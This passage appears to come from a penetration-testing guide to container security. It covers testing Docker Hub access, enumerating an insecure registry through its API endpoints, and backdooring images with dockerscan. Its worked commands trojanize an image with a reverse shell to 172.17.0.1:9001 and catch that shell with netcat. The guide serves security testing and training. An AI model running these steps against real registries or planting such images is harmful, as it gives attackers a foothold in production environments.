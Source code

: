 Organisations should restrict images to secure trusted private registries, where images are scanned for vulnerabilties before being stored. However it is worth trying to pull an image from docker hub to check if access is properly locked down. If you're able to pull from Docker Hub you can upload an arbitrary image containing vulnerabilities to exploit and attempt to breakout of the container.

An intentionally vulnerable image can be found at https://hub.docker.com/r/vulnerables/cve-2014-6271 this image is vulnerable to shellshock and can be used as a POC to show how exploiting an a vulnerability can provide an initial foothold into a container via RCE. **Note this is a vulnerable image and should only be used for training purposes**

## Insecure Docker Registry
Organisations should implement private image repositories for production like deployments, However if the container registry is not properly secured you could attempt to access images stored within. You can interact with the registry using docker or curl clients. 

Docker API Spec: https://docs.docker.com/registry/spec/api/

If you can access the registry you can pull images/layers to enumerate sensitive information:
```
# Retrieve list of available repositories
/v2/_catalog

# Get image tags/versions
/v2/<name>/tags/list

# Get image manifest to identify image layers
/v2/<name>/manifests/<reference>

# Pull image layer (digest)
/v2/<name>/blobs/<digest>

# Extract image digest
tar -xfv layer -C /home/kali/docker-inspection
```
You can also attempt to backdoor images to get a shell into production/prod-like environments...

## 1.4. Backdooring Docker Images
It is possible to backdoor images manually, however The `Dockerscan` tool makes it easy to inject a reverse shell into a docker image. This docker image will still have the tag `latest` and the creation date will not be modified - the only way to detect it would be to inspect the image or diff the hash (In Kubernetes referencing images by SHA hash would protect against this attack)

Install and setup dockerscan:
```
git clone https://github.com/cr0hn/dockerscan.git
Python install setup.py
export LC_ALL=C.UTF-8
export LANG=C.UTF-8
```

Example useage:

```
docker pull alpine # pull an image if not local
docker save alpine -o alpine-original # save the docker file 
dockerscan image modify trojanize alpine-original -l 172.17.0.1 -p 9001 -o alpine-trojan # backdoor image
docker load -i alpine-trojan.tar # load the image into docker
```
Now that the trojanized image is imported to docker, if the victim runs a docker container from it the reverse shell can be captured with nc e.g -  `nc -nlvp 9001`
